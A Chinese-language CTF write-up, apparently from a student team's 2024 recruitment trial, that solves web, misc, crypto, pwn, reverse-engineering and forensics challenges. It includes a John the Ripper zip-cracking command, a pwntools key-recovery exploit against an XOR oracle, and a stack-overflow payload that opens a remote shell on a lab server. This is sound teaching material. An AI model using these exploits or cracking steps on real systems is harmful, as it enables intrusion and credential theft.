




+++
title = 'COMPASS Team 2024 Trial'
date = 2024-04-07T12:28:31+08:00
draft = false
summary = "If a younger player works better than you, you should retire early."
categories = ["CTF"]
tags = ["Writeup", "COMPASS"]
+++

## [Web] F12

赠送的芙蓉王？赠送的HTML！

### 分析

（这题大家都秒了就不用看了）拿到网站后根据标题提示，打开浏览器的开发模式（按F12）。



发现密码是硬编码的，搜索发现btoa会将原文编码为Base64，于是用Cyberchef解码。

### 步骤

1. 打开浏览器，按F12
2. 选中sources，找到js文件
3. 拿到密码的Base64，解码

### Flag

`flag{1M_s0_1M_5o_Dyn4Mit3_092478}`

## [Misc] Rockyou

Let~~me~~dooooo~~it~~4~u ~ ~ ~

### 分析

双击打开压缩包发现是加密的，于是乎根据标题发现应该是暴力破解（Rockyou是知名密码字典）。

### 步骤

1. 用John the Ripper工具破解
2. 首先要将zip转换为John能处理的hash文件，执行命令：`zip2john flag.zip > hash.txt`
3. 然后John，启动！执行命令：`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
4. 获得密码`*@@!^^$25Jjersey`，打开压缩包获得flag

### Flag

`flag{y0u_r0ck3d_17}`

## [Crypto] OTP

《OTP》是由Frank Miller自主研发的一款全新开放方案加密算法。加密发生在一个被称作「XOR」的位运算世界里，在这里，被随机数发生器选中的值将被授予「密钥」，导引加解密之力。你将扮演一位名为「带黑阔」的神秘角色，在自由的加密预言机中邂逅原文各异、密钥一致的密文们，和他们一起搞烂系统，找回失散的FLAG——同时，逐步发掘「预言机」的真相。

### 分析

获得加密代码 app.py

```python
#!/usr/bin/env python3

from os import urandom
from binascii import hexlify, unhexlify

class Cipher:
    def __init__(self):
        self.key = b''
    def encrypt(self, data):
        if len(data) > len(self.key):
            self.key = urandom(len(data))
        return bytes(a ^ b for a, b in zip(data, self.key))

cipher = Cipher()

with open('flag.txt', 'rb') as f:
    flag = f.read().strip()

flag = cipher.encrypt(flag)
flag = hexlify(flag)

print("OTP is a secure encryption algorithm. It's so secure that it's used by the NSA!")
print("I'm going to encrypt my flag with it and give you the ciphertext.")
print("Can you decrypt it and capture the flag?")
print(f"Here it is: {flag}")
print()
print("Remember, the key is as long as the data. You can't decrypt it without the key.")
print("However, you can encrypt your own data with the key I give you.")

while True:
    try:
        print("Give me some data:")
        inp = input()
    except:
        break
    try:
        inp = unhexlify(inp)
    except:
        print("That's not valid!")
        continue
    ct = cipher.encrypt(inp)
    ct = hexlify(ct)
    print(f"Here it is: {ct}")
```

加密代码首先会给flag的密文（加密后的信息），然后会接收用户给的明文并返回加密后的密文（选择明文攻击）。加密流程是：首先判断明文长度是否小于密钥，如否则重新生成密钥，然后将密钥与明文异或获得密文。由于$c = m \oplus k$ 且明文$m$已知，则可通过$k = c \oplus m = m \oplus k\oplus m = k \oplus (m \oplus m)$，获得密钥，然后再通过$m = c \oplus k = m (\oplus k \oplus k)$，恢复flag原文。（如果不了解xor，请看[XOR 加密简介 - 阮一峰的网络日志](https://www.ruanyifeng.com/blog/2017/05/xor.html)) 

### 步骤

1. 用nc连接网站，获得flag密文
2. 按照加密代码的方式与其交互，随便选择一个与flag长度相等（len=42）的明文m
3. 喂给得到加密后的密文c
4. 将密文c与明文m异或，得到密钥k
5. 将密钥与flag密文异或获得原文

**EXP**

```python
from pwn import *  # if you dont have one, install by "pip install pwntools"
from binascii import unhexlify, hexlify

# connect to the server, change it to yours
p = remote("detroit.sustech.edu.cn", 49338)

# receive the ciphertext of flag
p.recvuntil(b'flag?\n')
flag = p.recvline().strip(b"Here it is: b'").strip(b"'\n")
p.recvuntil(b'data:\n')
flag = unhexlify(flag)

# generate our message
msg = b'a' * len(flag)

# send our message
p.sendline(hexlify(msg))

# receive the ciphertext of our message
cipher = p.recvline().strip(b"Here it is: b'").strip(b"'\n")
cipher = unhexlify(cipher)

# calculate the key
key = bytes([a ^ b for a, b in zip(msg, cipher)])

# decrypt the flag
flag = bytes([a ^ b for a, b in zip(flag, key)])
print(flag)
```

### Flag

`flag{83f03622-a964-4be0-809d-524488e8d1a9}`

## [PWN] Fall

我打PWN……？

### 分析

拿到一个压缩包，里面有源码和编译后的可执行文件。源码如下

```c
#include <stdio.h>
#include <unistd.h>

void grab_ledge()
{
    puts("ayy we made it");
    execve("/bin/sh", NULL, NULL);
}

int main(void)
{
    char action[12];

    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    puts("We thought it was a good idea to go white-water rafting...");
    puts("but now we're about to go over a waterfall!!");
    puts("HELP!!!!!");
    puts("The map said there was a ledge nearby that we could escape to but I can't find it!!!");

    gets(action);
    printf("Let's try this %s and hope it works D:\n", action);
}
```

这个是PWN中经典的栈溢出攻击(Stack Overflow Attack)。如果不了解，推荐文章[手把手教你栈溢出从入门到放弃（上）](https://zhuanlan.zhihu.com/p/25816426)。现在假设你已经学废辣，我们来看看这题怎么做。你的目标是攻击服务器，上面运行着这个程序，你要通过栈溢出攻击获得服务器的终端控制权(CTF黑话：拿到shell)。源代码中，存在一个危险函数`grab_ledge()`，是我们要执行的目标。并且`get(char *)`这个库函数由于未检查读入字符串长度，会产生栈溢出漏洞，也就是漏洞的利用点。然后变量`action`的大小和目标函数的地址可以从可执行文件中获得。（什么！做PWN题不看保护？！~~招新题不可能那么难~~ P.S. 用`checksec`工具可以查看可执行文件的保护机制情况）最后就可以愉快地溢出了。



### 步骤

1. 从二进制中，获得溢出变量长度和目标函数地址，i.e.，`0x14`和`0x004011b6`
2. 攻击服务器，获得shell
3. 用`ls`看服务器文件，然后执行`cat flag.txt` 获得flag

**EXP**

```python
from pwn import * # pip install pwntools

# connect to the server, change it to yours
p = remote("detroit.sustech.edu.cn", 49340)
p.recvline()
p.recvline()
p.recvline()
p.recvline() # receive message

# generate payload
payload = b"a" * 0x14 + p64(0x4011b6)

# send payload
p.sendline(payload)

# get shell
p.interactive()
```

### Flag

`flag{8037f516-7adc-4564-a8af-480bef1987c7}`

## [RE] Descriptor

复——活——吧——！我——的——F——D——！

### 分析

拿到一个Linux程序(ELF)，运行发现啥也没有。根据题目描述搜索fd和desciptor，学到fd(file desciptor)是blabla...（具体看看[存储基础 — 文件描述符 fd 究竟是什么？](https://zhuanlan.zhihu.com/p/364617329)）然后文章告诉我们

> 在 POSIX 语义中，0，1，2 这三个 fd 值已经被赋予特殊含义，分别是标准输入（ STDIN_FILENO ），标准输出（ STDOUT_FILENO ），标准错误（ STDERR_FILENO ）。

回到题目，c的库函数`write(int fd, const void * buf, size_t count)`，第一个参数是fd。我们的目的是让这个函数输出到stdout。题目中这个值是5，那么把它改成我们需要的1就行了。~~那么怎么改喵？~~。打开一个你喜欢的逆向工具，然后就好啦。



### 步骤

1. 打开工具（我用的是Radare2）
2. 修改`0x00006a7`处的指令`mov edi, 5`为`mov edi, 1` (具体什么意思可以问问老东西)
3. 保存并运行，获得flag

### Flag

`flag{l00k5_1iK3_u_f0Und_m3_018a09d6}`

## [Forensics] Capture

第一位玩家身份有些神秘　像是某国的公主

第二位玩家　是带刀侍卫　他的职责是拥护

第三位玩家扮演的王子　他和公主有些冲突

最后所有人目光移向我　问我扮演的角色是什么

我看看身份说我是——

网络流量捕获包

### 分析

拿到一个Wireshark流量包，打开后~~全部看一遍~~。发现第561个包发送了一个获取flag的http请求，并在第575个包获得了响应。那么我们把这个响应的信息提取出来就好了。提取方式在下面的步骤。



### 步骤

1. 打开流量包并过滤出`http`包，找到发送`flag.pdf`的包（即第575个）。
2. 右键点击它，选择`Follow -> TCP Stream`
3. 在新窗口中，`Decode as`中选择Raw，然后点击`Save as`，命名为`flag.pdf`
4. 打开保存的文件，即获得flag

### Flag

`flag{Y0u_foUnD_m3!}`
